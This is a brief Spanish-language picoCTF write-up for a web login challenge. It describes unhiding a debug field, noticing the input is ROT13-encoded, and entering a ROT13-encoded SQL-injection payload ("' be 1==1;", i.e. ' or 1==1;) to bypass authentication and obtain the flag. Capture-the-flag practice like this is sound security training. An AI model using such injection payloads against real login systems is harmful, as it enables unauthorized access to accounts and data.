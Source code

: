 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Datos de acceso al nivel
```
Link: https://jupiter.challenges.picoctf.org/problem/64649/login.php
```

## Solución

```bash
# Logged in!

1: Abrir inspeccionar, quitar la linea hiden para activar el usuario
2:ponemos lo que queramos en usuario y contraseña, damos enter y aparecera :
password: pepe
SQL query: SELECT * FROM admin where password = 'crcr'
3: debe de rotar 13 veces
4: ponemos " ' be 1==1; " en password
5: 

password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}

``` 
